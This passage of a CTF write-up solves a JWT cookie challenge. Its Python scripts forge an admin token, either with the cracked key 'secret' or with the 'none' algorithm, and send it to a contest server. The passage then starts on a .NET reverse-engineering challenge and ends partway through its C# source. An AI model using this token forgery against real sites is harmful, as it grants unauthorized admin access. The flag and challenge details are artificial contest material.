 After pressing 'Reveal secret', the site says "Ya' cookie tells me you're not an admin.". The 'secret' cookie is a JWT token with 'admin' set to set to false. There are two ways of forging a new token: either crack the key with a tool like jwtcrack (the key was 'secret') or set the algorithm to "none" and provide no signature:

{% highlight python %}
import requests
import jwt

url = "http://35.234.117.20:31050/secret.php"

key = "secret"
cookie = jwt.encode({"admin": True}, key, algorithm="HS256").decode()

r = requests.get(url, cookies={"secret": cookie})
print(r.text)
{% endhighlight %}

{% highlight bash %}
import requests
import jwt

url = "http://35.234.117.20:31050/secret.php"

cookie = jwt.encode({"admin": True}, None, algorithm="none").decode()

r = requests.get(url, cookies={"secret": cookie})
print(r.text)
{% endhighlight %}

**Flag:** CTF{98ed1dfbddd3510841cdeb99916a6a7534f224f5ae9841758708046540237987}

## this-is-wendys {#this-is-wendys}
{% highlight bash %}
You went to Wendy's and found this weird keypad. What does it open?

Format flag: CTF{sha256}
{% endhighlight %}

The given .exe is a .NET app - you can use dnSpy to see its source code. The os is "Windows_NT". For reference, here's the (real) original source code:

{% highlight c %}
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Drawing;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace this_is_wendys
{
    public partial class Form1 : Form
    {
        public Form1()
        {
            InitializeComponent();
        }

        public char[] reee(string a, string b)
        {
            char[] c = new char[b.Length];
            
            for(int i=0; i<b.Length ;i++)
            {
                c[i] = (char)(a[i%8] ^ b[i]);
            }